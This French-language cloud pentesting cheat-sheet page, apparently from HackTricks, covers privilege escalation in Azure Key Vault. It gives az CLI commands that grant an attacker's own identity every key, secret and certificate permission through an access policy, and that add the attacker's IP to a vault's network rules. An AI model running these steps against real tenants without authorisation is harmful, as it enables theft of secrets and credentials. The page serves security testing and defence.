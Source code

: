 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

Pour plus d'informations sur ce service, consultez :

{{#ref}}
../az-services/az-keyvault.md
{{#endref}}

### `Microsoft.KeyVault/vaults/write`

Un attaquant disposant de cette autorisation pourra modifier la politique d'un coffre-fort de clés (le coffre-fort de clés doit utiliser des politiques d'accès au lieu de RBAC).
```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
--name <vault-name> \
--object-id <your-object-id> \
--key-permissions all \
--secret-permissions all \
--certificate-permissions all \
--storage-permissions all
```
### Modifier les restrictions réseau

Il se peut que vous ayez suffisamment de permissions pour accéder à des données sensibles (comme la valeur d'un secret) mais que vous ne puissiez pas y accéder car le key vault est restreint à un réseau spécifique. Si vous avez la permission de modifier les restrictions réseau, vous pouvez ajouter votre IP à la liste des IP autorisées.
```bash
# Get the current network restrictions
az keyvault network-rule list --name <vault-name>

# Add your IP to the list
az keyvault network-rule add --name <vault-name> --ip-address <your-ip>
```
{{#include ../../../banners/hacktricks-training.md}}
